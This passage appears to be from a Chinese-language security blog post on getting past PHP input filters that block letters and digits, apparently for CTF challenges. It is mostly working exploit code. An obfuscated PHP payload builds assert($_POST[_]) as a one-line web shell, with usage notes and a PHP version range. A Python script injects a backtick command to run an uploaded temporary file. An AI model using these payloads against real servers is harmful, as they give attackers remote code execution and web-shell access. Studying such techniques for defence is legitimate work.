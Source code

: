 ```php
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__; 
$__=$_; $__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__; 
$_=$$____; 
$___($_[_]); // ASSERT($_POST[_]);
```
Payload
注意最后传入的时候记得URL编码一次，密码是_，POST传入 _=phpinfo(); 
这里利用版本是PHP 7.0.12及以下版本

```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210602173445963.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 上传临时文件

上传临时文件[具体原理](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

```python
#coding:utf-8
#author yu22x
import requests
url="http://xxx/test.php?code=?><?=`. /???/????????[@-[]`;?>"
files={'file':'cat f*'}
response=requests.post(url,files=files)
html = response.text
print(html)
```
